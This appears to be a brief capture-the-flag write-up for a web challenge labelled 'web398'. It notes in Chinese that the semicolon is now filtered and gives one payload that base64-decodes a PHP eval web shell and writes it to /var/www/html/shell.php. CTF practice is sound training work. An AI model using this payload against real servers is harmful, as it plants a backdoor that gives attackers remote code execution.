 # web398
![](vx_images/380375507405795.png)
较于上题过滤了;
```
http://PD9waHAgZXZhbCgkX1BPU1RbJ2MnXSk7Pz4|base64 -d/../../var/www/html/shell.php
```

